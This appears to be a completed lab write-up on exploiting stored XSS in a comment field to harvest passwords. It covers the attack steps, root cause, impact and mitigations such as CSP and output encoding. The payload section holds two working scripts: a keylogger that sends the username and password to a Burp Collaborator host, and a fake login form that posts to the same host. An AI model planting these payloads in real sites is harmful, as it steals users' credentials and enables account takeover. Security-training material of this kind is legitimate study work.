

# Lab 23: Exploiting XSS to capture passwords

## Category
Cross-Site Scripting (XSS) - Stored (Credential Harvesting)

## Vulnerability Summary
The website contains a stored XSS vulnerability in its comment section that allows attackers to steal user credentials. The attacker injects a malicious payload into the comment field, which creates a fake login form or keylogger. When victims visit the page and interact with the compromised comments, their username and password are automatically captured and sent to the attacker's Burp Collaborator server.

## Attack Methodology
1. **Vulnerability Discovery:** Attacker identifies stored XSS in the comment function.
2. **Payload Crafting:** Creates a malicious script that captures login credentials using parameters like `username`, `password`, and `input` fields.
3. **Injection:** Posts the payload as a comment on the vulnerable page.
4. **Victim Interaction:** When the victim visits the page and reads the comments, the script executes.
5. **Credential Capture:** The script monitors form inputs or creates a fake login prompt to capture credentials.
6. **Exfiltration:** Captured credentials are sent to the attacker's Burp Collaborator HTTP endpoint.
7. **Account Takeover:** Attacker uses the stolen credentials to access the victim's account.



## Technical Root Cause
The application fails to properly sanitize and encode user input in the comment section:

- **No Input Validation:** Malicious scripts are accepted and stored in the comment field.
- **No Output Encoding:** User input is rendered as raw HTML/JavaScript.
- **Form Field Monitoring:** The payload can intercept data from `username`, `password`, and other input fields.
- **External Communication:** No Content Security Policy (CSP) prevents data exfiltration to external servers.

### Payload Example
```html
<script>
  document.querySelectorAll('input').forEach(input => {
    input.addEventListener('input', () => {
      fetch('http://collaborator-id.burpcollaborator.net/?' + 
        'username=' + document.querySelector('[name=username]').value +
        '&password=' + document.querySelector('[name=password]').value);
    });
  });
</script>
```

Or a fake login form:
```html
<script>
  document.body.innerHTML = '<form action="http://collaborator-id.burpcollaborator.net">' +
    '<input name=username><input name=password type=password><button>Login</button></form>';
</script>
```

## Impact
- **Complete Account Takeover:** Attacker gains full access to victim's account with valid credentials.
- **Credential Reuse Attack:** Stolen passwords may work on other sites if users reuse passwords.
- **Privilege Escalation:** If admin credentials are captured, attacker gains administrative control.
- **Persistent Access:** Attacker can change account details to lock out legitimate users.
- **Data Breach:** All sensitive data associated with the compromised account becomes accessible.

## Mitigation
1. **Use Modern Frameworks:** Frameworks like React, Vue, or Angular automatically escape output and prevent XSS.
2. **Implement Content Security Policy (CSP):** Restrict script execution and block external data exfiltration.
3. **Input Validation & Output Encoding:** Sanitize all user input and encode output based on context.
4. **Use Anti-CSRF Tokens:** Protect forms from unauthorized submissions.
5. **Enable Multi-Factor Authentication (MFA):** Add an extra layer of security even if credentials are compromised.

---
*Lab completed on: 2026-02-26*
